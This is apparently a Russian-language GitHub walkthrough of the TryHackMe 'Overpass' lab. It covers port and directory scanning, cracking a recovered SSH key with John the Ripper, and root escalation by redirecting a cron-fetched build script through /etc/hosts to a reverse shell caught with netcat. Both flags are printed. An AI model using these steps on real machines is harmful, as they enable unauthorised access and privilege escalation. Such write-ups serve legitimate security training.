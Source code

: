 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Overpass](https://tryhackme.com/r/room/overpass) 

Всего 1 задание:
## Задание 1
Что происходит, когда группа нищих студентов-компьютерщиков пытается создать менеджер паролей?
Очевидно, что это идеальный коммерческий успех!

На этой коробке спрятан код подписки TryHackMe. Первый, кто найдет и активирует его, получит подписку на месяц 
бесплатно! Если вы уже являетесь подписчиком, почему бы не передать код другу? 

ОБНОВЛЕНИЕ: Код теперь заявлен.
Машина была немного изменена 25.09.2020. Это было сделано только для улучшения производительности машины. Это не 
влияет на процесс. 

### Ответить на вопросы ниже
Взломайте машину и получите флаг в user.txt
```commandline
sudo nmap -sS -sV {Add your machine ip here}
gobuster --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u {Add your machine ip here}
# {IP целевой машины}/admin
# login.js

mkdir ssh
nano id_rsa
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
# james13
chmod 600 id_rsa
ssh -i id_rsa {Добавьте сюда IP-адрес вашего компьютера} 
yes 
james13
cat user.txt
```

```commandline
thm{65c1aaf000506e56996822c6281e6bf7}
```
Повысьте свои привилегии и получите флаг в root.txt
```commandline
sudo -l
find / -perm -u=s -type -f 2>/dev/null
cat todo.txt
ls -la
cat .overpass
# {IP целевой машины}/downloads
# Используя шифр ROT47 проебразуем кодовою фразу из файла .overpass в пароль пользователя james
sudo -l
crontab -l
nano /etc/hosts
# изменим IP overpass.thm на адресс Вашей атакующей машины
# создадим реверс шел на нашей машине overpass.thm/downloads/src/buildscript.sh
python3 -m http.server 80
nc -nvlp 4444
cat root.txt
```

```commandline
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)